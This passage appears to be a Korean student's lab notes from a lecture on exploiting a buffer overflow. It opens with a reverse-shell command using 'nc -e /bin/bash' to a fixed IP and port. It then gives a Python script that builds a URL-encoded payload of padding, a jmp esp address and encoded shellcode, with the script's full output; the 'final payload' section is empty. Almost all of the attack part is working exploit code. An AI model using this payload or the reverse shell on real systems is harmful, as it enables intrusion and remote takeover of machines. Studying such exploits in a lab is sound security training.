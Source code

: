* 강의에서는 `/bin/ps`를 한 거고 나는 `nc -e /bin/bash 192.168.190.155 4444`를 함

### 9. test2.py 작성 후 실행

```python
dummy = '%41' * 354
jmpesp = '%8f%92%04%08'
shellcode = '%27%54%58%2d%79%fc%fd%fd%2d%01%01%01%01%2d%01%01%01%01%50%5c%25%01%01%01%01%25%02%02%02%02%2d%75%1c%30%7d%2d%01%01%01%01%2d%01%01%01%01%50%2d%53%df%74%2b%2d%01%01%01%01%2d%01%01%01%01%50%2d%12%ca%20%1d%2d%01%01%01%01%2d%01%01%01%01%50%2d%f0%ff%fc%fc%2d%01%02%01%01%2d%01%01%01%01%50%2d%fe%fd%f9%02%2d%01%01%01%01%2d%01%01%01%01%50%2d%fe%fd%ff%f5%2d%01%01%02%01%2d%01%01%01%01%50%2d%0c%fe%fa%03%2d%01%01%01%01%2d%01%01%01%01%50%2d%bc%cd%c3%c7%2d%01%01%01%01%2d%01%01%01%01%50%2d%fe%f5%02%37%2d%01%01%01%01%2d%01%01%01%01%50%2d%33%02%4c%fe%2d%01%01%01%01%2d%01%01%01%01%50%2d%2b%f5%ba%0c%2d%01%01%01%01%2d%01%01%01%01%50%2d%16%46%61%1e%2d%01%01%01%01%2d%01%01%01%01%50%2d%78%9a%1a%ab%2d%01%01%01%01%2d%01%01%01%01%50%2d%04%58%7f%e7%2d%01%01%01%01%2d%01%01%01%01%50%2d%37%ba%f7%66%2d%01%01%01%01%2d%01%01%01%01%50%2d%ca%e7%7e%95%2d%01%01%01%01%2d%01%01%01%01%50%2d%0f%21%7d%39%2d%01%01%01%01%2d%01%01%01%01%50%2d%e6%58%0e%92%2d%01%01%01%01%2d%01%01%01%01%50%27'

payload = shellcode[:3] + dummy + jmpesp + shellcode[3:]

print payload
```

```bash
root@ming:~/바탕화면# python test2.py
%27%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%41%8f%92%04%08%54%58%2d%79%fc%fd%fd%2d%01%01%01%01%2d%01%01%01%01%50%5c%25%01%01%01%01%25%02%02%02%02%2d%75%1c%30%7d%2d%01%01%01%01%2d%01%01%01%01%50%2d%53%df%74%2b%2d%01%01%01%01%2d%01%01%01%01%50%2d%12%ca%20%1d%2d%01%01%01%01%2d%01%01%01%01%50%2d%f0%ff%fc%fc%2d%01%02%01%01%2d%01%01%01%01%50%2d%fe%fd%f9%02%2d%01%01%01%01%2d%01%01%01%01%50%2d%fe%fd%ff%f5%2d%01%01%02%01%2d%01%01%01%01%50%2d%0c%fe%fa%03%2d%01%01%01%01%2d%01%01%01%01%50%2d%bc%cd%c3%c7%2d%01%01%01%01%2d%01%01%01%01%50%2d%fe%f5%02%37%2d%01%01%01%01%2d%01%01%01%01%50%2d%33%02%4c%fe%2d%01%01%01%01%2d%01%01%01%01%50%2d%2b%f5%ba%0c%2d%01%01%01%01%2d%01%01%01%01%50%2d%16%46%61%1e%2d%01%01%01%01%2d%01%01%01%01%50%2d%78%9a%1a%ab%2d%01%01%01%01%2d%01%01%01%01%50%2d%04%58%7f%e7%2d%01%01%01%01%2d%01%01%01%01%50%2d%37%ba%f7%66%2d%01%01%01%01%2d%01%01%01%01%50%2d%ca%e7%7e%95%2d%01%01%01%01%2d%01%01%01%01%50%2d%0f%21%7d%39%2d%01%01%01%01%2d%01%01%01%01%50%2d%e6%58%0e%92%2d%01%01%01%01%2d%01%01%01%01%50%27
```

### 최종 페이로드

```txt
```